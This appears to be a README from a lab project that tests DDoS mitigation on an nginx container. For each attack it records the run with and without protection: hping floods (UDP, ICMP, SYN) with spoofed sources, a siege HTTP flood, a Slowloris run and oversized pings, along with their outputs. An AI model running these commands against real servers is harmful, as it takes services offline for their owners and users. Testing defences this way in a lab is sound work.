










# DDoS Attacks

## UDP Flood

### Without protection

```shell
/ # hping --rand-source --udp --flood nginx -p 80
HPING nginx (eth0 172.24.0.4): udp mode set, 28 headers + 0 data bytes
hping in flood mode, no replies will be shown
--- nginx hping statistic ---
942175 packets tramitted, 0 packets received, 100% packet loss
round-trip min/avg/max = 0.0/0.0/0.0 ms
```



### With protection

```shell
hping --rand-source --udp --flood nginx -p 80
HPING nginx (eth0 172.31.0.3): udp mode set, 28 headers + 0 data bytes
hping in flood mode, no replies will be shown
--- nginx hping statistic ---
2151038 packets tramitted, 0 packets received, 100% packet loss
round-trip min/avg/max = 0.0/0.0/0.0 ms
```



## ICMP flood

```shell
/ # hping --rand-source -1 --flood nginx -p 80  
HPING nginx (eth0 172.24.0.4): icmp mode set, 28 headers + 0 data bytes
hping in flood mode, no replies will be shown
--- nginx hping statistic ---
1124126 packets tramitted, 0 packets received, 100% packet loss
round-trip min/avg/max = 0.0/0.0/0.0 ms
```



### Without protection

```shell
/ # hping --rand-source -1 --flood nginx -p 80
HPING nginx (eth0 172.31.0.3): icmp mode set, 28 headers + 0 data bytes
hping in flood mode, no replies will be shown
--- nginx hping statistic ---
2545522 packets tramitted, 0 packets received, 100% packet loss
round-trip min/avg/max = 0.0/0.0/0.0 ms
```



### With protection

## HTTP flood

### Without protection

```shell
siege -b -c 300 -t 1m 127.0.0.1:8080

Transactions:                  16376 hits
Availability:                  99.22 %
Elapsed time:                  59.85 secs
Data transferred:               0.28 MB
Response time:                  1.09 secs
Transaction rate:             273.62 trans/sec
Throughput:                     0.00 MB/sec
Concurrency:                  297.31
Successful transactions:       16376
Failed transactions:             129
Longest transaction:            1.99
Shortest transaction:           0.06

```



### With protection

```shell
siege -b -c 200 -t 1m 127.0.0.1:8080

Transactions:                  13270 hits
Availability:                  95.17 %
Elapsed time:                  59.93 secs
Data transferred:               0.32 MB
Response time:                  0.90 secs
Transaction rate:             221.42 trans/sec
Throughput:                     0.01 MB/sec
Concurrency:                  198.78
Successful transactions:       13270
Failed transactions:             674
Longest transaction:            2.97
Shortest transaction:           0.00

```



## Slowloris

### Without protection

```shell
python3 slowloris.py nginx -s 1021 --sleeptime 1
```

Server down



### With protection

```shell
python3 slowloris.py nginx -s 1021 --sleeptime 1
```

Server OK



## SYN flood

### Without protection

```shell
/ # hping --rand-source -S -q -n --flood nginx -p 80
HPING nginx (eth0 172.24.0.4): S set, 40 headers + 0 data bytes
hping in flood mode, no replies will be shown
--- nginx hping statistic ---
657549 packets tramitted, 0 packets received, 100% packet loss
round-trip min/avg/max = 0.0/0.0/0.0 ms

```



### With protection

```shell
/ # hping --rand-source -S -q -n --flood nginx -p 80
HPING nginx (eth0 172.31.0.3): S set, 40 headers + 0 data bytes
hping in flood mode, no replies will be shown
--- nginx hping statistic ---
1145059 packets tramitted, 0 packets received, 100% packet loss
round-trip min/avg/max = 0.0/0.0/0.0 ms
```



## Ping of Death

### Without protection

```shell
/ # ping nginx -s 65488
PING nginx (172.24.0.4): 65488 data bytes
65496 bytes from 172.24.0.4: seq=0 ttl=64 time=0.602 ms
65496 bytes from 172.24.0.4: seq=1 ttl=64 time=0.977 ms
65496 bytes from 172.24.0.4: seq=2 ttl=64 time=0.498 ms
65496 bytes from 172.24.0.4: seq=3 ttl=64 time=0.605 ms
--- nginx ping statistics ---
4 packets transmitted, 4 packets received, 0% packet loss
round-trip min/avg/max = 0.498/0.670/0.977 ms
```

### With protection

```shell
/ # ping nginx -s 65488
PING nginx (172.31.0.3): 65488 data bytes
--- nginx ping statistics ---
15 packets transmitted, 0 packets received, 100% packet loss
```